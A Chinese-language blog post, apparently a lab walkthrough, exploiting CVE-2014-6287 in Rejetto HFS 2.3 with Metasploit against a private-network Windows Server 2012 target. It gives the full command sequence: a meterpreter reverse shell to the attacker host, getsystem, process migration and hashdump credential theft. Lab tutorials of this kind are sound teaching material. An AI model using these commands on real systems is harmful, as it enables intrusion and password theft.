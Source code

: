 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit攻击HFS2.3上的漏洞
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Metasploit攻击HFS2.3上的漏洞
lock: need
---
```


# Metasploit攻击HFS2.3上的漏洞

攻击机： kali 192.168.109.137

靶机： windows server 2012 192.168.109.141

工具：Metasploit

根据CVE-2014-6287的描述，Rejetto网络文件服务器(也被称为HSF或者HttpFileServer)的2.3x版本(2.3c以前的版本)中的parserLib.pas文件使用了一个findMacroMaker函数，该漏洞源于parserLib.pas文件没有正确处理空字节。远程攻击者可借助搜索操作中的%00序列利用该漏洞执行任意程序。

下面给出了这个有漏洞的函数：

```
function findMacroMarker(s:string; ofs:integer=1):integer;
begin result:=reMatch(s, '\{[.:]|[.:]\}|\|', 'm!', ofs) end;
```

这个函数不能正确的处理空字节，所以当我们对[http://localhost:80/search=%00](http://localhost:80/search=){.exec|cmd.}发起请求时，就会停止对宏的正则解析，从而导致远程代码的注入。

## 开启MSF

```
msfconsole
```

## 渗透漏洞

```
search hfs
use exploit/windows/http/rejetto_hfs_exec
show options
set RHOST 192.168.109.141
set RPORT 8080
show payloads
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.109.137
set LPORT 4444
show options
exploit
```

此时，我们已经以管理员的身份获得了Windows server 2012系统的权限。

## 将权限提升为系统级

```
getsystem
```

## 查看系统进程和Meterpreter正在驻留的进程号

```
ps
getpid
```

## 绑定Meterpreter到其他进程

这里，为了保险起见，我们将Meterpreter的进程绑定到explorer.exe的进程号，这里，explorer.exe的进程号为1864,执行如下命令：

```
migrate 1864
```

此时，我们再次输入getpid命令查看，Meterpreter正在驻留的进程号变成了1864

## 收集系统密码的哈希值

```
hashdump
```

完成了哈希值的收集之后，就可以执行pass-the-hash攻击，在没有明文密码的情况下绕过限制。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)

